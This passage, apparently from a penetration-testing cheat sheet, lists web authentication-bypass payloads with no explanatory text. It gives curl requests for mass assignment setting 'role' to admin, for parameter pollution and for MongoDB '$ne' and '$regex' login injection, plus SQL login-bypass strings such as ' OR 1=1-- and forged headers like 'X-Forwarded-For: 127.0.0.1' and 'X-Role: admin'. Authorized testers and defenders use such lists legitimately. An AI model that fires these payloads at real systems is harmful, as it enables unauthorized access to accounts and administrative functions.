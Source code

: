 ```bash
# Mass assignment testing
curl -X POST http://<target>/api/users \
     -H "Content-Type: application/json" \
     -d '{"username":"test","password":"test","role":"admin","is_admin":true}'

# Parameter pollution
curl "http://<target>/api/users?id=1&id=2"
curl "http://<target>/api/users?role=user&role=admin"
```

## Authentication Bypass Techniques

### SQL Authentication Bypass
```sql
-- Login bypass payloads
admin'--
admin'/*
' OR '1'='1'--
' OR 1=1--
admin' OR '1'='1'--
'OR 1=1#
' UNION SELECT 1,'admin','password'--
```

### NoSQL Injection for Authentication Bypass
```bash
# MongoDB injection
curl -X POST http://<target>/login \
     -H "Content-Type: application/json" \
     -d '{"username":{"$ne":""},"password":{"$ne":""}}'

curl -X POST http://<target>/login \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":{"$regex":".*"}}'
```

### HTTP Header Authentication Bypass
```bash
# Test bypass headers
curl -H "X-Forwarded-For: 127.0.0.1" http://<target>/admin
curl -H "X-Real-IP: 127.0.0.1" http://<target>/admin
curl -H "X-Originating-IP: 127.0.0.1" http://<target>/admin
curl -H "X-Remote-IP: 127.0.0.1" http://<target>/admin
curl -H "X-Remote-Addr: 127.0.0.1" http://<target>/admin

# Authorization header manipulation
curl -H "Authorization: Bearer admin" http://<target>/api/admin
curl -H "X-User-ID: 1" http://<target>/profile
curl -H "X-Role: admin" http://<target>/admin
```
